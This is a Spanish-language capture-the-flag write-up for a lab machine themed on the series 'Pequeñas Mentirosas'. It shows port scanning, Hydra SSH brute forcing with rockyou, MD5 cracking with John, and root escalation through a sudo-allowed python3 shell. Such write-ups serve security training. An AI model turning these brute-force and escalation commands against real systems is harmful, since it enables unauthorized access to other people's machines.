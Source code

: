 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil  📅 Fecha de creación: 22/09/2024'
---
```


# Pequeñas Mentirosas

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos que puede ser un usuario llamado **A** y tiene sentido ya que es un personaje de la serie de **Pequeñas Mentirosas**.&#x20;

<figure><img src="../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **a**. Sabiendo esto, nos conectamos a través de **FTP** al usuario con el comando:

```bash
ftp a@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

Al listar el contenido del directorio, no encontramos ningún archivo. Es importante recordar que los archivos asociados con los servidores se almacenan en el directorio `/srv`. En el caso de un servidor **FTP**, los archivos específicos que se desean compartir deben ubicarse en `/srv/ftp`. Por lo tanto, nos ubicaremos en ese directorio.

```bash
cd /srv/ftp
```

<figure><img src="../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Nos descargamos a nuestro equipo esos archivos.&#x20;

```bash
mget *
```

Indagamos poco a poco nos llama la atención sobre los ficheros de texto denominados `retos`.

<figure><img src="../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

Sabiendo eso tenemos que desencriptar el archivo `cifrado_aes.enc` con la clave del archivo `clave_aes.txt` con el comando:

```bash
openssl enc -d -aes-128-cbc -in cifrado_aes.enc -out desencriptado_aes.txt -k thisisaverysecretkey!
```

El archivo resultante contiene:

<figure><img src="../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

No contiene nada relevante seguimos con el archivo `retos_asimetrico.txt` con el comando:

```bash
openssl pkeyutl -decrypt -in mensaje_rsa.enc -out desencriptado_rsa.txt -inkey clave_privada.pem
```

Pero nos vuelve a parecer el mismo resultado:

<figure><img src="../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un archivo `hash_spencer.txt` posiblemente **spencer** sea un usuario  por lo que a lo mejor ese **hash** es una contraseña. La podemos descifrar de dos maneras: la primera con **John** y la segunda con **Hydra** suponiendo que **spencer** es un usuario.

```bash
john --format=raw-md5 hash_spencer.txt
```

<figure><img src="../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

<figure><img src="../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

```bash
ssh spencer@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>

Se ha identificado que podemos ejecutar `/usr/bin/python3` con permisos de `sudo`. Para escalar privilegios, utilizaremos [GTFObins](https://gtfobins.github.io/gtfobins/python/), que proporciona una lista de comandos que se pueden ejecutar utilizando Python.

Esto nos permitirá aprovechar el entorno de Python para ejecutar código que nos ayude a obtener acceso a niveles más altos de privilegio en el sistema.

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<figure><img src="../.gitbook/assets/imagen (15).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que hemos conseguido tener los máximos privilegios.&#x20;

> **Nota**: los demás archivos son para despistar.
